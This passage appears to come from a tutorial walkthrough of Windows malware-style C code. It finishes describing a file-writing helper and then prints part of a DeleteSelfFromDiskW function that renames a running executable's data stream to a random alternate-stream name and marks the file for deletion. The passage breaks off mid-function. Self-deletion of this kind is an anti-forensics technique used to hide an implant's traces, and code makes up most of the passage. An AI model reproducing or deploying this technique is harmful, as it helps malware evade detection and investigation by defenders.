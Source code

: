 After accepting the required parameters, it -
- Initializes variables for the file handle and number of bytes written.
- Checks if the input parameters are valid. If not, returns `FALSE`.
- Opens the file for writing. If it fails, prints an error message and jumps to the cleanup section.
- Writes the image to the file. If it fails, prints an error message and jumps to the cleanup section.
- Closes the file handle and returns `TRUE` if the write was successful, `FALSE` otherwise.

8. `DeleteSelfFromDiskW` Function
The `DeleteSelfFromDiskW` function deletes the executable image from disk by renaming it and then setting it for deletion.

```C
// Structure for File Deletion
typedef struct _FILE_RENAME_INFO2 {
#if (_WIN32_WINNT >= _WIN32_WINNT_WIN10_RS1)
	union {
		BOOLEAN ReplaceIfExists;
		DWORD Flags;
	} DUMMYUNIONNAME;
#else
	BOOLEAN ReplaceIfExists;
#endif
	HANDLE RootDirectory;
	DWORD FileNameLength;
	WCHAR FileName[MAX_PATH]; // Instead of "WCHAR FileName[1]" (See FILE_RENAME_INFO's original documentation)
} FILE_RENAME_INFO2, * PFILE_RENAME_INFO2;

// Function to delete file image from disk
BOOL DeleteSelfFromDiskW(IN LPCWSTR szFileName) {

	BOOL						bResult = FALSE;
	HANDLE                      hFile = INVALID_HANDLE_VALUE;
	FILE_DISPOSITION_INFO       DisposalInfo = { .DeleteFile = TRUE };
	FILE_RENAME_INFO2			RenameInfo = { .FileNameLength = sizeof(L":%x%x\x00"), .ReplaceIfExists = FALSE, .RootDirectory = 0x00 };

	// Check if the parameters are valid
	if (!szFileName)
		return FALSE;

	// Generate a random name
	swprintf(RenameInfo.FileName, MAX_PATH, L":%x%x\x00", rand(), rand() * rand());

	// Open the file
	if ((hFile = CreateFileW(szFileName, DELETE | SYNCHRONIZE, FILE_SHARE_READ, NULL, OPEN_EXISTING, NULL, NULL)) == INVALID_HANDLE_VALUE) {
		printf("[!] CreateFileW [%d] Failed With Error: %d \n", __LINE__, GetLastError());
		goto _END_OF_FUNC;
	}

	// Rename the file
	if (!SetFileInformationByHandle(hFile, FileRenameInfo, &RenameInfo, sizeof(RenameInfo))) {
		printf("[!] SetFileInformationByHandle [%d] Failed With Error: %d \n", __LINE__, GetLastError());
		goto _END_OF_FUNC;
	}

	// Close the handle
	CloseHandle(hFile);

	// Open the file again
```